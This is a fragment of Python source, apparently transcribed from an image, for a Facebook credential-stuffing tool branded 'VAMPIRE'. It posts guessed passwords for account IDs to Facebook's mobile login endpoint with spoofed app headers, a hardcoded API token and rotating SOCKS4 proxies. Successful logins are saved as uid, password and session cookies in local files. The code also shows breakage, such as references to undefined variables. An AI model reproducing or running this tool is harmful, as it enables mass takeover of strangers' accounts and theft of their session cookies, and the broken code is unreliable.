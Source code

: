             headers = {'User-Agent': f'{R4}', 'Accept-Encoding': 'gzip, deflate', 'Connection': 'Keep-Alive', 'Content-Type': 'application/x-www-form-urlencoded', 'Host': 'graph.facebook.com', 'X-FB-Net-HNI': str(random.randint(20000, 40000)), 'X-FB-SIM-HNI': str(random.randint(20000, 40000)), 'Authorization': 'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32', 'X-FB-Connection-Type': 'MOBILE.LTE', 'X-Tigon-Is-Retry': 'False', 'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=62f8ce9f74b12f84c123cc23437a4a32', 'x-fb-device-group': '5120', 'X-FB-Friendly-Name': 'ViewerReactionsMutation', 'X-FB-Request-Analytics-Tags': 'graphservice', 'X-FB-HTTP-Engine': 'Liger', 'X-FB-Client-IP': 'True', 'X-FB-Server-Cluster': 'True', 'x-fb-connection-token': '62f8ce9f74b12f84c123cc23437a4a32'}
            url = 'https://graph.facebook.com/auth/login'
            po = requests.post(url,data=data,headers=headers,proxies=bro).text
            q = json.loads(po)
            if 'session_key' in q:
                ckkk = ";".join(i["name"]+"="+i["value"] for i in result["session_cookies"])
                uid=str(q['uid'])
                abir = random.choice(["\x1b[38;5;196m","\x1b[38;5;208m","\033[1;30m","\x1b[38;5;160m","\x1b[38;5;46m","\033[1;33m","\033[38;5;6m","\033[1;35m","\033[1;36m","\033[1;37m"])
                ckk = f'https://graph.facebook.com/{uid}/picture?type=normal'
                res = requests.get(ckk).text
                if 'Photoshop' in res:
                    print(f"\r\r {red}[{green}VAMPIRE-OK{red}] {green}{uid} {red}| {green}{pas} ")
                    oks.append(ids)
                    open('/sdcard/VAMPIRE/VAMPIRE-RNOM-OK.txt','a').write(uid+'|'+pas+'|'+ckkk+'\n')
                    print(f"\r\r {red}[{green}COOKIE{red}]{green} ={abir} {coki}")
                    break
            elif 'www.facebook.com' in q:
                cps.append(ids)
                print(f"\r\r {green}[{red}VAMPIRE-CP{green}] {uid} {red}|{green} {pas} ")
                open('/sdcard/VAMPIRE/VAMPIRE-RNOM-CP.txt','a').write(ids+'|'+pas+'\n')
                break
            else:continue
        loop+=1
    except requests.exceptions.ConnectionError:
        time.sleep(10)
    except Exception as e:
        pass
#---------RANDOM M5
def randm4(ids,psd,tl):
    global loop,oks,cps,xvx
    abir = random.choice(["\x1b[38;5;196m","\x1b[38;5;208m","\033[1;30m","\x1b[38;5;160m","\x1b[38;5;46m","\033[1;33m","\033[38;5;6m","\033[1;35m","\033[1;36m","\033[1;37m"])
    sys.stdout.write(f"\r {red}[{abir}VAMPIRE{red}]-{red}[{cyan}{loop}{red}]-{red}[{green}OK{white}-{green}{len(oks)}{red}]-{red}[{green}{'{:.1%}'.format(loop/int(tl))}{red}]"),
    sys.stdout.flush()
    try:
        for pas in psd:
            accees_token = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
            pas = rmpassconf(ids,pas)
            prox=random.choice(xvx)
            bro={"http":"socks4://"+prox}
            data = {'adid':str(uuid.uuid4()),'format':'json','device_id':str(uuid.uuid4()),'email':ids,'password':pas,'generate_analytics_claims':'1','community_id':'','cpl':'true','try_num':'1','family_device_id':str(uuid.uuid4()),'credentials_type':'password','source':'login','error_detail_type':'button_with_disabled','enroll_misauth':'false','generate_session_cookies':'1','generate_machine_id':'1','currently_logged_in_userid':'0','locale': 'en_GB','client_country_code': 'GB','fb_api_req_friendly_name':'authenticate','api_key':'62f8ce9f74b12f84c123cc23437a4a32','access_token':accees_token}